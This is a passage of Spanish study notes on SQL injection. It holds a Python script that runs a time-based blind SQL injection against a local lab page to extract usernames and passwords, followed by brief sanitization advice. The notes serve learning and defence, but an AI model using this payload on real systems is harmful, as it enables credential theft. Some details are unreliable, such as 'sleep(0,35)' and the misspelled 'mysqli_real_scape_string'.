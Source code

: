    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	sys.exit(1)
    
    # cltr_c
    signal.signal(signal.SIGINT, def_handler)
    
    # Variables de entorno
    main_url = "http://localhost/users.php"
    
    def makeSQLI():
    
    	p1 = log.progress("Fuerza bruta")
    	p1.status("Iniciando fuerza bruta...")
    
    	time.sleep(2)
    
    	p2 = log.progress("Datos extraÃ­dos")
    
    	extracted_info = ""
    
    	for position in range(1, 150):
    		for character in range(33, 126):
    			sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0,35),1)" % (position, character)
    
    			p1.status(sqli_url)
    
    			time_start = time.time()
    
    			r = requests.get(sqli_url)
    
    			time_end = time.time()
    
    			if time_end - time_start > 0.35:
    				extracted_info += chr(character)
    				p2.status(extracted_info)
    				break
    
    if __name__ == '__main__':
    
    	makeSQLI()
    ```
    

## Sanitizaciones

No mostrar errores con die(mysqli_error($conn))

Modificar la variable que obtiene el valor que el usuario inserta por GET para que sea como lo siguiente, Lo que hará es escapar las comillas: mysqli_real_scape_string($conn, $_GET[’id’]);

![Código sin escapado de caracteres](../assets/OWASP-TOP-10/SQL Injection (SQLI)/Untitled 32.png)

Código sin escapado de caracteres

![Código con escapado de caracteres](../assets/OWASP-TOP-10/SQL Injection (SQLI)/Untitled 33.png)

Código con escapado de caracteres
